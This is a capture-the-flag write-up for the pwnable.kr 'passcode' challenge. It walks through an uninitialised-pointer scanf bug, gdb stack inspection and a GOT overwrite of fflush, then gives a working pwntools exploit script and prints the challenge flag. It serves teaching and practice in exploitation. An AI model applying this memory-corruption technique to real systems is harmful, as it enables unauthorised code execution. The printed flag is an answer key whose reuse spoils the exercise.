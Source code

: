 ## Pwnable.kr
Target: passcode <br>
SSH Connect: ssh passcode@pwnable.kr -p2222 (pw:guest)

### Code Overview
```
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==123456 && passcode2==13371337){
                printf("Login OK!\n");
		setregid(getegid(), getegid());
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.1 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}

```

### Solution
#### First Attempt
```
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.1 beta.
enter you name : hello
Welcome hello!
enter passcode1 : 123456
enter passcode2 : 1234
Segmentation fault (core dumped)
```

Since the gdb in the machine is broken, I scp the elf to my own machine

#### Second Attempt (Tried to use gdb)
Hints: Well, there were some compiler warnings, but who cares about that?
```
root@kali:~/home/documents# gcc -o pass passcode.c -Wall
passcode.c: In function ‘login’:
passcode.c:9:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    9 |         scanf("%d", passcode1);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
passcode.c:14:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
   14 |         scanf("%d", passcode2);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
passcode.c:19:17: warning: implicit declaration of function ‘setregid’ [-Wimplicit-function-declaration]
   19 |                 setregid(getegid(), getegid());
      |                 ^~~~~~~~
passcode.c:19:26: warning: implicit declaration of function ‘getegid’ [-Wimplicit-function-declaration]
   19 |                 setregid(getegid(), getegid());
      |                          ^~~~~~~
passcode.c:9:9: warning: ‘passcode1’ is used uninitialized [-Wuninitialized]
    9 |         scanf("%d", passcode1);
      |         ^~~~~~~~~~~~~~~~~~~~~~
passcode.c:5:13: note: ‘passcode1’ was declared here
    5 |         int passcode1;
      |             ^~~~~~~~~
passcode.c:14:9: warning: ‘passcode2’ is used uninitialized [-Wuninitialized]
   14 |         scanf("%d", passcode2);
      |         ^~~~~~~~~~~~~~~~~~~~~~
passcode.c:6:13: note: ‘passcode2’ was declared here
    6 |         int passcode2;

```
This tells us that the scanf contains vulnerability since the second parameter of scanf is pointer to address, It is easy to see that there is arbitrary write vulnerability right in front of us

Apart from that, credited to Abdallah Elshinbary for the concept of "after a function stack frame is destroyed, the next function will start at the same base pointer". Thus maybe we could find the address of passcode1 or 2 is reused in the initial memory space of name.

disas login
```
   0x0804921e <+40>:	push   DWORD PTR [ebp-0x10]
   0x08049221 <+43>:	lea    eax,[ebx-0x1fe5]
   0x08049227 <+49>:	push   eax
   0x08049228 <+50>:	call   0x80490d0 <__isoc99_scanf@plt>
```
ebp-16 is the address used by passcode1

Use cyclic to quickly find the offset
```
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x61616179)
96
```
```
Breakpoint 1, 0x08049345 in welcome ()
(gdb) x/30xw $esp
0xffffd5e0:	0x0804a07b	0xffffd5f8	0xf7f93d40	0x080492fe
0xffffd5f0:	0xf7f93d40	0x0804d1a0	0x61616161	0x61616162
0xffffd600:	0x61616163	0x61616164	0x61616165	0x61616166
0xffffd610:	0x61616167	0x61616168	0x61616169	0x6161616a
0xffffd620:	0x6161616b	0x6161616c	0x6161616d	0x6161616e
0xffffd630:	0x6161616f	0x61616170	0x61616171	0x61616172
0xffffd640:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd650:	0x61616177	0x61616178
(gdb) x/40xw $esp
0xffffd5e0:	0x0804a07b	0xffffd5f8	0xf7f93d40	0x080492fe
0xffffd5f0:	0xf7f93d40	0x0804d1a0	0x61616161	0x61616162
0xffffd600:	0x61616163	0x61616164	0x61616165	0x61616166
0xffffd610:	0x61616167	0x61616168	0x61616169	0x6161616a
0xffffd620:	0x6161616b	0x6161616c	0x6161616d	0x6161616e
0xffffd630:	0x6161616f	0x61616170	0x61616171	0x61616172
0xffffd640:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd650:	0x61616177	0x61616178	0x61616179	0x93a5ca00
0xffffd660:	0x0804a088	0x0804c000	0xffffd678	0x08049395
0xffffd670:	0xffffd690	0xf7f92e34	0x00000000	0xf7d92c65
(gdb) x/x ebp-16
No symbol table is loaded.  Use the "file" command.
(gdb) x/x $ebp-16
0xffffd658:	0x61616179
```

Therefore we can only write to the passcode1 not including passcode2

### What address to write to
Check the relocation table to identified what address to write to
```
objdump -R passcode
```
Since the fflush function will be called inside the login function, we may arbitrary write the fflush got table 
to the address we want to execute. When the fflush function is executed, the execution flow is hijacked to what we expected

```
0804c014 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

We can redirect the fflush to execute the below command
```
   0x080492a1 <+171>:	call   0x8049080 <getegid@plt>
   0x080492a6 <+176>:	mov    esi,eax
   0x080492a8 <+178>:	call   0x8049080 <getegid@plt>
   0x080492ad <+183>:	sub    esp,0x8
   0x080492b0 <+186>:	push   esi
   0x080492b1 <+187>:	push   eax
   0x080492b2 <+188>:	call   0x80490c0 <setregid@plt>
   0x080492b7 <+193>:	add    esp,0x10
   0x080492ba <+196>:	sub    esp,0xc
   0x080492bd <+199>:	lea    eax,[ebx-0x1fb9]
   0x080492c3 <+205>:	push   eax
   0x080492c4 <+206>:	call   0x80490a0 <system@plt>

```
We got all the tools we need. Let's write the code

### Code
```python
from pwn import *
import sys

buf = flat(
    "A"*96,
    0x0804c014,
    str(0x080492a1)
)
sys.stdout.buffer.write(buf)
```

```bash
python3 exp32.py | ./passcode
```

### Answer
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning

### Result
```
passcode@ubuntu:~$ python3 /tmp/hello2/exp.py | ./passcode
Toddler's Secure Login System 1.1 beta.
/tmp/hello2/exp.py:4: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  buf = flat(
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
s0rry_mom_I_just_ign0red_c0mp1ler_w4rning
enter passcode1 : Now I can safely trust you that you have credential :)

```

### Lefted Question
Still, I don't understand why sol.py won't work as expected as though it keep expecting smtg from user input (something about buffering). 